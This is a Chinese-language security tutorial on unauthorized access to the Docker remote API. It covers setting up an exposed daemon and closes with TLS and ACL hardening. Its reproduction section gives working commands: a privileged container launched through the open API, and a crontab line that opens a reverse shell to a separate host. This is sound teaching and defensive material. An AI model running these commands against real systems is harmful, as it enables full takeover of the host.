




# Docker未授权访问漏洞

## 漏洞描述

恶意攻击者可以在未经授权的情况下访问 Docker 服务器或容器。这可能导致敏感数据泄露，或允许攻击者执行未经授权的操作，如添加、修改或删除容器。

## 环境搭建

安装docker

```
yum install -y docker
```

修改`/usr/lib/systemd/system/docker.service`服务，启动API接口。

```
ExecStart=/usr/local/bin/dockerd -H tcp://0.0.0.0:2375 -H unix://var/run/docker.sock
```



重启docker服务。

```
systemctl daemon-reload
systemctl restart docker
```



## 漏洞复现

输入`ip:2375/version`就会列出基本信息，和docker version命令效果一样。




**利用docker容器写定时任务反弹shell**

我们可以利用未授权访问的docker remote api 开启一个容器并挂载至根目录，由此我们可以获得任意读写的权限，然后我们再将反弹shell命令写入定时任务crontab中，即可使宿主机反弹shell。

```
[root@localhost ~]# docker -H tcp://192.168.32.183:2375 run -it --user root --privileged -v /var/spool/cron/:/var/spool/cron/ alpine sh
```

写入定时计划

```
/ # echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/8088 0>&1' >> /var/spool/cron/root
```



## 安全加固

在不必需的情况下，不要启用docker的remote api服务，如果必须使用的话，可以采用如下的加固方式：

```
设置ACL，仅允许信任的来源IP连接；
设置TLS认证，官方的文档为Protect the Docker daemon socket
```

客户端与服务器端通讯的证书生成后，可以通过以下命令启动docker daemon：

```
docker -d --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=tcp://10.10.10.10:2375 -H unix:///var/run/docker.sock
```

客户端连接时需要设置以下环境变量

```
export DOCKER_TLS_VERIFY=1
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```